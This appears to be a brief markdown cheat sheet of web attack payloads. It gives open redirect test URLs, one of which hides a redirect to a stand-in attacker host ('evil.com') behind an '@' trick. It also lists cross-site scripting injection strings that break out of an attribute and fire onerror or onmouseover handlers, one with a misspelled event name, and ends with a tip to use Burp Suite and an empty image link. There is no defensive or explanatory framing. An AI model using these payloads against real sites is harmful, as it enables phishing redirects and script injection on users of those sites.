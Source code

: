 # Open redirect

__`https://test.com/?redirect=https://www.google.com`__
__`https://test.com/?redirect=https://www.google.com@evil.com`__


# Cross-Site Scripting (XSS)

- __`"><image src=x onerror=alert()>`__
- __`"><image src=x onmouseover=alert()>`__
- __`"><image src=x onmouseovr=document.write(1)>`__
- > __If you are not getting /?id= in url you can use burpsuite__
  - ![image1]()
